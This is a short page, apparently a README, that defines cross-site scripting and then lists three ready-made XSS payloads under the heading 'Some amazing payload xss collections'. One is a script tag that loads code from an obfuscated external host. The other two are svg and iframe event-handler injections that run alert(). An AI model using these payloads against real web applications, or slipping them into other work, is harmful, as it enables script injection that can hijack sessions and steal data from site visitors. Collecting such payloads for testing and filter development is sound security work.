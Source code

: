 ##### Overview : 

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

**Some amazing payload xss collections**

<script/src=//⑭.₨>
<svg/onload=alert()>
<iframe autofocus onfocus=alert(1)>
